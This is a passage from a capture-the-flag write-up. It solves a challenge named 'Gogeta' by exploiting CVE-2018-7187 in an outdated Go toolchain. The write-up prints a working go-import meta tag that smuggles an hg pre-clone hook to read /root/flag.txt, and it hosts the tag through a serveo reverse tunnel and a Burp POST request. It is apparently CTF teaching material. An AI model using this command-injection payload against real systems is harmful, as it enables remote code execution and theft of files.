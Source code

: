 `YAO{m4y_th3_b35t_l33t_w1n5}`

---

# Gogeta

in the DockerFile: `golang:1.9.4` 

with a little search we can see that this version is very old and has a critical **CVE-2018-7187**

here is a POC https://github.com/golang/go/issues/23867

add this to `/tmp/index.html`

```java
<meta name="go-import" content="60b5a867a1af82011f038b1fa6b2f2fb.serveo.net/tmp hg --config=hooks.pre-clone=cat${IFS}/root/flag.txt${IFS}$USER;echo${IFS}https://>/dev/null">
```

just setup a local server using python in the root directory and use serveo to host it online 

`python -m http.server 1337`

`ssh -R 80:localhost:1337 serveo.net`

put the ling generated from serveo into the payload `index.html`

request this using burp

```java
POST /submit HTTP/1.1
Host: 34.65.29.51:3280
Content-Length: 19
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://34.65.29.51:3280
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://34.65.29.51:3280/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

url=60b5a867a1af82011f038b1fa6b2f2fb.serveo.net/tmp
```

you will get the flag

`YAO{1m_4_5up3r_541y4n_blu3_g0g3t4}`

---

# Hambozo
